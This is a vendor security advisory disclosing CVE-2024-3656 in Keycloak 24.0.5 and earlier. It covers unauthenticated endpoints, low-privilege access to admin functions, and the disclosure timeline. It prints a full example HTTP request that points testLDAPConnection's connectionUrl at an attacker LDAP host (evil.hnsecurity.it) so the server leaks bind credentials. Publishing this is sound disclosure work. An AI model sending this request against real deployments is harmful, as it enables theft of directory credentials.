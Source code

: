 # HN Security Advisory - https://hnsecurity.it/

* Title: Multiple authentication and authorization vulnerabilities in Keycloak
* Products: Keycloak <= 24.0.5
* Author: Ema Srdoc <ema.srdoc at hnsecurity.it> and Maurizio Agazzini <maurizio.agazzini at hnsecurity.it>
* Date: 2024-10-30
* CVE Names and Vendor CVSS Scores:  
  CVE-2024-3656: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N  
* Advisory URLs:  
  https://github.com/hnsecurity/vulns/blob/main/HNS-2024-08-Keycloak.md

# Description

Multiple issues have been identified regarding the authentication and authorization of certain endpoints in the Keycloak software.

## Unauthenticated access to certain functionalities

It has been observed that certain functionalities within Keycloak, specifically the */metrics* and */health* endpoints, are accessible without proper authentication. Even though these endpoints do not provide sensitive information, it is preferable that they are accessible only to authenticated individuals with the correct privileges.

## Unauthorized use of administrative features by low-privilege users

Additionally, users with low privileges are able to utilize administrative functionalities within the Keycloak admin interface. This issue presents a significant security risk as it allows unauthorized users to perform actions reserved for administrators, potentially leading to data breaches or system compromise. Affected endpoints are:

- /admin/realms/myrealm/client-registration-policy/providers
- /admin/myrealm/console/whoami
- /admin/realms/myrealm/testLDAPConnection

In particular, the last functionality (*testLDAPConnection*), in the event that an AD authentication system has been configured, allows to modify application data, **enabling the submission of an LDAP request and consequently the access credentials to a malicious endpoint**.

An attacker with access to a non-administrative user can modify the *connectionUrl* parameter, and the password will be sent to an attacker-controller server. To successfully execute the attack, it's also necessary to know the *componentId* related to the domain authentication, which is retrievable in the cookies K*EYCLOAK_SESSION*, *KEYCLOAK_SESSION_LEGACY*, and in the responses returned by the */admin/myrealm/console/whoami* endpoints.

Example of modified request:

``` http
POST /admin/realms/myrealm/testLDAPConnection HTTP/2
Host: idp.url
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://idp.url/admin/myrealm/console/
Authorization: Bearer [...]
Content-Type: application/json
Content-Length: 308
Origin: https://idp.url
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"connectionUrl":"ldap://evil.hnsecurity.it","bindDn":"cn=test","bindCredential":"**********","useTruststoreSpi":"","connectionTimeout":"5000","startTls":"false","authType":"simple","action":"testAuthentication","componentId":"12345-1234-1234-1234-123456789"}
```

# Affected platforms

All Keycloak versions up to and including version 24.0.5 are affected.
 
# Disclosure timeline

04/04/2024 - First communication sent with all details.  
09/04/2024 - Response with request of clarifications.  
09/04/2024 - More details sent.  
09/04/2024 - Second reply.  
09/04/2024 - [Proposed fix](https://github.com/keycloak/keycloak/pull/27629) for the first issue.  
10/04/2024 - Multiple emails about the first issue.  
02/05/2024 - Request for information about the second issue (which is more severe).  
09/05/2024 - Response with assigned CVE-2024-3656 and request to not release any details: `For the moment there is no estimated keycloak version to include the fix`  
27/05/2024 - Request for an update and  a timeline for the fix  
11/06/2024 - [Advisory](https://github.com/keycloak/keycloak/security/advisories/GHSA-2cww-fgmg-4jqc) published without any notification.  
